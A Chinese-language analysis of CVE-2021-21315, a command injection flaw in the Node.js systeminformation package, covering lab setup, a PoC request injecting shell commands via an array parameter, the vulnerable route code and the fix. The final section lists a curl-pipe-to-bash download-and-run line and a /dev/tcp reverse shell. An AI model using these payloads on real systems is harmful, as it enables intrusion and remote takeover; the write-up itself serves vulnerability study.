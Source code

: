 # CVE-2021-21315漏洞分析

Author: H3rmesk1t

Data: 2022.05.16

# 漏洞信息
```
The System Information Library for Node.JS (npm package "systeminformation") is an open source collection of functions to retrieve detailed hardware, system and OS information. In systeminformation before version 5.3.1 there is a command injection vulnerability. Problem was fixed in version 5.3.1. As a workaround instead of upgrading, be sure to check or sanitize service parameters that are passed to si.inetLatency(), si.inetChecksite(), si.services(), si.processLoad() ... do only allow strings, reject any arrays. String sanitation works as expected.
```

<div align=center><img src="./images/4.png"></div>

# 漏洞复现
先下载受影响的`Node.js`, 这里使用的是`v12.18.4`.

```bash
wget https://nodejs.org/dist/v12.18.4/node-v12.18.4-linux-x64.tar.xz

tar -xvf node-v12.18.4-linux-x64.tar.xz
```

<div align=center><img src="./images/1.png"></div>

并更换文件名字为`nodejs`, 将该文件移至`/usr/local/sbin/`目录下.

```bash
mv node-v12.18.4-linux-x64 nodejs
sudo mv nodejs/ /usr/local/sbin/
```

<div align=center><img src="./images/2.png"></div>

接着更换文件`node`和`npm`的软连接, 运行`node.js`查看配置是否成功.

```bash
sudo ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
sudo ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/
```

<div align=center><img src="./images/3.png"></div>

下载对应的[漏洞环境](https://github.91chi.fun/https://github.com/H3rmesk1t/CVE-2021-21315-ENV.git), 并运行`index.js`文件.

<div align=center><img src="./images/5.png"></div>

执行`PoC`:

```
http://192.168.249.143:8000/api/getServices?name[]=$(echo 'whoami' > exp.sh)
```

<div align=center><img src="./images/6.png"></div>

<div align=center><img src="./images/7.png"></div>

# 漏洞分析
漏洞核心代码:

```javascript
app.get('/api/getServices', (req, res) => {
  const queryData = req.query.name
  
  si.services(queryData).then((data) => { 
  res.json(data);
  });
 
});
```

从修复代码种不难看出, 在调用进一步的命令之前, 会对参数进行清理, 以检查它们是否为字符串数据类型, 并额外检查该参数在任何时候是否发生过原型污染. 而在修复前的代码中是不存在该操作的, 攻击者可以利用数组的形式, 在未经过滤的参数中注入`Payload`来执行系统命令. 在安全公告中也提到, 一定要检查或清理传递给`si.inetLatency()`、`si.inetChecksite()`、`si.services()`、`si.processLoad()`等的服务参数, 只允许字符串, 拒绝任何数组.

<div align=center><img src="./images/9.png"></div>

# 漏洞利用

`systeminformation`中代码注入漏洞的存在意味着攻击者可以通过在组件使用的未初始化参数内小心翼翼地注入有效载荷来执行系统命令, 例如:
 - 上传内部文件: 例如, `index.js`或其他文件.
 - 下载并执行脚本`curl -s http://server/path/exp.sh | bash /dev/stdin arg1 arg2`.
 - 反向`shell`: `bash -i >& /dev/tcp/ip/port 0>&1`.
 - ......